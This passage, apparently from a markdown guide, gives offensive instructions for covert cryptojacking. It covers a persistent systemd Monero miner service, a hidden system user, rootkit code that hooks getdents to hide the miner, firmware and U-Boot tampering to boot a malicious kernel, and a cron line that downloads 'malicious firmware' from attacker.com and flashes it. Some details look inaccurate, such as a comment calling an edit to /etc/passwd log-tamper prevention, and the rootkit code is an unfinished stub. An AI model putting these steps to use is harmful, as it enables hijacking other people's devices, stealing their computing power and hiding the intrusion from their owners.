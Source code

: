 2. **systemd Service Files**:  
   - Create a systemd service file (e.g., `/etc/systemd/system/miner.service`):  
     ```ini  
     [Unit]  
     Description=Monero Miner  
     After=network.target  

     [Service]  
     ExecStart=/path/to/xmrig --background  
     Restart=always  

     [Install]  
     WantedBy=multi-user.target  
     ```  
   - Enable with `sudo systemctl enable miner.service`.  

### Hidden Accounts and Process Obfuscation  
- **Stealthy User Accounts**:  
  Create a hidden user to run mining processes:  
  ```bash  
  sudo useradd -r -s /bin/false -d /dev/null cryptominer  
  sudo chattr +i /etc/passwd  # Prevent log tampering  
  ```  
- **Kernel-Level Process Hiding**:  
  Deploy rootkits like **proc_hide.c** to intercept system calls (e.g., `getdents`) and remove mining processes from `ps`/`top` outputs. Example hooking code:  
  ```c  
  // Hook getdents to filter out miner PID  
  asmlinkage int (*original_getdents)(unsigned int, struct linux_dirent *, unsigned int);  
  asmlinkage int hooked_getdents(unsigned int fd, struct linux_dirent *dirp, unsigned int count) {  
      int res = original_getdents(fd, dirp, count);  
      // Remove entries matching "xmrig" or target PID  
      return res;  
  }  
  ```  

### Firmware and Bootloader Modifications  
- **Firmware Payload Injection**:  
  Use tools like **Binwalk** to extract and modify firmware images. Insert mining binaries into `/etc/init.d/` or append to `initramfs` to ensure execution at boot.  
- **Bootloader Exploits**:  
  Patch vulnerabilities like **CVE-2021-31323** (Nest Thermostat) to disable firmware signature checks. Modify U-Boot’s `bootcmd` to load a malicious kernel or initrd:  
  ```  
  setenv bootcmd 'run loaduimage; bootm ${loadaddr}'  
  saveenv  
  ```  

### Self-Updating Malware  
Implement mechanisms to reinfect devices post-update or patch:  
1. **Scheduled Re-Deployment**:  
   Use `cron` to periodically check for and apply malicious firmware updates:  
   ```bash  
   0 0 * * * wget -O /tmp/malicious_firmware.bin http://attacker.com/update && /sbin/upgrade_firmware /tmp/malicious_firmware.bin  
   ```  
2. **Zero-Day Exploits**:  
   Leverage unpatched vulnerabilities (e.g., **CVE-2020-28697** in TP-Link routers) to re-establish access after vendor patches.  
